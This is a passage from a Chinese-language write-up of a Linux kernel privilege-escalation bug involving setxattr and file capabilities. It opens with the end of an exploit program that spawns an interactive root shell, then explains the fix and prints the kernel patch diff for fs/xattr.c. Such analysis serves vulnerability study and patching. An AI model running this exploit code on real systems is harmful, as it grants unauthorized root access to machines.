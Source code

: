 ```c
        err(1, "setxattr %s", BIN_MERGE);
    
    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }
    
    pid_t child = fork();
    if (child == -1)
        err(1, "fork");
    
    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }
    
    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```


# 0X06 解决方案
补丁将 setxattr() 中的 cap_convert_nscap() 校验函数移动到了 vfs_setxattr() 中，设置任何目录项的 security.capability 扩展属性时，都会进行 user namespace 和 capability 的校验，补丁具体信息如下。
```c
diff --git a/fs/xattr.c b/fs/xattr.c
index cd7a563e8bcd4..fd57153b1f617 100644
--- a/fs/xattr.c
+++ b/fs/xattr.c
@@ -276,8 +276,16 @@ vfs_setxattr(struct dentry *dentry, const char *name, const void *value,
 {
 	struct inode *inode = dentry->d_inode;
 	struct inode *delegated_inode = NULL;
+	const void  *orig_value = value;
 	int error;
 
+	if (size && strcmp(name, XATTR_NAME_CAPS) == 0) {
+		error = cap_convert_nscap(dentry, &value, size);
+		if (error < 0)
+			return error;
+		size = error;
+	}
+
 retry_deleg:
 	inode_lock(inode);
 	error = __vfs_setxattr_locked(dentry, name, value, size, flags,
@@ -289,6 +297,9 @@ retry_deleg:
 		if (!error)
 			goto retry_deleg;
 	}
+	if (value != orig_value)
+		kfree(value);
+
```